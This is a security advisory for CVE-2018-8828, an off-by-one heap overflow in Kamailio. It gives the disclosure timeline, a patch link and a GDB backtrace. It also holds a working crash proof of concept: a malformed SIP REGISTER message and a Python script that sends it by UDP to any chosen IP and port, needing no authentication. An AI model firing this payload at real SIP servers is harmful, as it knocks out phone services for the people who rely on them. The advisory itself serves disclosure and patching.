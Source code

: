 # Off-by-one heap overflow in Kamailio

- Authors:
    - Alfred Farrugia <alfred@enablesecurity.com>
    - Sandro Gauci <sandro@enablesecurity.com>
- Fixed versions: Kamailio v5.1.2, v5.0.6 and v4.4.7
- References: CVE-2018-8828
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2018-05-kamailio-heap-overflow>
- Kamailio Security Advisory: https://www.kamailio.org/w/2018/03/kamailio-security-announcement-tmx-lcr/
- Tested vulnerable versions: 5.1.1, 5.1.0, 5.0.0
- Timeline:
    - Report date: 2018-02-10
    - Kamailio confirmed issue: 2018-02-10
    - Kamailio patch: 2018-02-10
    - Kamailio release with patch: 2018-03-01
    - Enable Security advisory: 2018-03-19

## Description

A specially crafted REGISTER message with a malformed `branch` or `From tag` triggers an off-by-one heap overflow.

## Impact

Abuse of this vulnerability leads to denial of service in Kamailio. Further research may show that exploitation leads to remote code execution.

## How to reproduce the issue

The following SIP message was used to reproduce the issue with a `From` header containing the `tag` that triggers the vulnerability:


```
REGISTER sip:localhost:5060 SIP/2.0
Via: SIP/2.0/TCP 127.0.0.1:53497;branch=z9hG4bK0aa9ae17-25cb-4c3a-abc9-979ce5bee394
To: <sip:1@localhost:5060>
From: Test <sip:2@localhost:5060>;tag=bk1RdYaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaRg
Call-ID: 8b113457-c6a6-456a-be68-606686d93c38
Contact: sip:1@127.0.0.1:53497
Max-Forwards: 70
CSeq: 10086 REGISTER
User-Agent: go SIP fuzzer/1
Content-Length: 0

```

We used this python script to reproduce the crash:

```
#!/usr/bin/env python
import socket
import sys

PROTO = "udp"
SERVER_IP = "127.0.0.1"
SERVER_PORT = 5060

for _ in range(2):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.connect((sys.argv[1], int(sys.argv[2])))

    msg = "REGISTER sip:localhost:5060 SIP/2.0\r\n" \
        "Via: SIP/2.0/TCP 127.0.0.1:53497;branch=z9hG4bK0aa9ae17-25cb-4c3a-abc9-979ce5bee394\r\n" \
        "To: <sip:1@localhost:5060>\r\n" \
        "From: Test <sip:2@localhost:5060>;tag=bk1RdYaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaRg\r\n" \
        "Call-ID: 8b113457-c6a6-456a-be68-606686d93c38\r\n" \
        "Contact: sip:1@127.0.0.1:53497\r\n" \
        "Max-Forwards: 70\r\n" \
        "CSeq: 10086 REGISTER\r\n" \
        "User-Agent: go SIP fuzzer/1\r\n" \
        "Content-Length: 0\r\n" \
        "\r\n"

    sock.sendall(msg)
```


Run using:

```
python crash.py <ip> <port>
```

The expected result is a crash in Kamailio.

Notes: 

- authentication is not required
- SIP extension does not need to exist
- Message can be sent over TCP or UDP

### GDB backtrace result

Both crashes produce a similar backtrace in GDB:

```
#0  0x00007f08c3f16428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
#1  0x00007f08c3f1802a in __GI_abort () at abort.c:89
#2  0x0000000000669a6e in qm_debug_frag (qm=0x7f08ba615000, f=0x7f08ba8c70a8, file=0x7f08c0bba514 "tmx: tmx_pretran.c", line=250) at core/mem/q_malloc.c:147
#3  0x000000000066b49e in qm_malloc (qmp=0x7f08ba615000, size=136, file=0x7f08c0bba514 "tmx: tmx_pretran.c", func=0x7f08c0bbb320 <__func__.7497> "tmx_check_pretran", line=250, mname=0x7f08c0bba510 "tmx") at core/mem/q_malloc.c:380
#4  0x00000000006758e8 in qm_shm_malloc (qmp=0x7f08ba615000, size=136, file=0x7f08c0bba514 "tmx: tmx_pretran.c", func=0x7f08c0bbb320 <__func__.7497> "tmx_check_pretran", line=250, mname=0x7f08c0bba510 "tmx") at core/mem/q_malloc.c:1206
#5  0x00007f08c0baf879 in tmx_check_pretran (msg=0x7f08c37a3250) at tmx_pretran.c:250
#6  0x00007f08c0bac901 in t_precheck_trans (msg=0x7f08c37a3250) at tmx_mod.c:858
#7  0x00007f08c0bac939 in w_t_precheck_trans (msg=0x7f08c37a3250, p1=0x0, p2=0x0) at tmx_mod.c:869
#8  0x000000000047b0e4 in do_action (h=0x7fff808ef7e0, a=0x7f08c374e6c0, msg=0x7f08c37a3250) at core/action.c:1067
#9  0x0000000000487df1 in run_actions (h=0x7fff808ef7e0, a=0x7f08c374e6c0, msg=0x7f08c37a3250) at core/action.c:1565
#10 0x00000000004884a7 in run_actions_safe (h=0x7fff808f0860, a=0x7f08c374e6c0, msg=0x7f08c37a3250) at core/action.c:1633
#11 0x0000000000446725 in rval_get_int (h=0x7fff808f0860, msg=0x7f08c37a3250, i=0x7fff808efb44, rv=0x7f08c374e818, cache=0x0) at core/rvalue.c:912
#12 0x000000000044ae11 in rval_expr_eval_int (h=0x7fff808f0860, msg=0x7f08c37a3250, res=0x7fff808efb44, rve=0x7f08c374e810) at core/rvalue.c:1910
#13 0x000000000047aba7 in do_action (h=0x7fff808f0860, a=0x7f08c374f3b0, msg=0x7f08c37a3250) at core/action.c:1043
#14 0x0000000000487df1 in run_actions (h=0x7fff808f0860, a=0x7f08c374f3b0, msg=0x7f08c37a3250) at core/action.c:1565
#15 0x000000000047b050 in do_action (h=0x7fff808f0860, a=0x7f08c374f650, msg=0x7f08c37a3250) at core/action.c:1058
#16 0x0000000000487df1 in run_actions (h=0x7fff808f0860, a=0x7f08c374b610, msg=0x7f08c37a3250) at core/action.c:1565
#17 0x00000000004885b3 in run_top_route (a=0x7f08c374b610, msg=0x7f08c37a3250, c=0x0) at core/action.c:1654
#18 0x000000000059c7dc in receive_msg (
    buf=0xa48120 <buf> "REGISTER sip:127.0.0.1:5060 SIP/2.0\r\nVia: SIP/2.0/TCP 127.0.0.1:51315;branch=z340282366920938463463374607431768211455hG4bKecc-65715664045141690323692c170141183460469231731687303715884105859-4b6d-48dc-"..., len=608,
    rcv_info=0x7fff808f0c20) at core/receive.c:277
#19 0x00000000004a7b7c in udp_rcv_loop () at core/udp_server.c:554
#20 0x00000000004232d0 in main_loop () at main.c:1626
#21 0x000000000042a97a in main (argc=7, argv=0x7fff808f12d8) at main.c:2646
(gdb)
```

This security issue was discovered through the use of simple fuzzing with [Radamsa](https://github.com/aoh/radamsa) and our internal toolset.

## Solutions and recommendations

Apply the patch at <https://github.com/kamailio/kamailio/commit/e1d8008a09d9390ebaf698abe8909e10dfec4097> or make use of a release that includes that patch (e.g. v5.1.2, v5.0.6 or v4.4.7).

Enable Security would like to thank Daniel-Constantin Mierla of the Kamailio Project for the very quick response and fix within hours of our report.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) provides Information Security services, including Penetration Testing, Research and Development, to help protect client networks and applications against online attackers.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
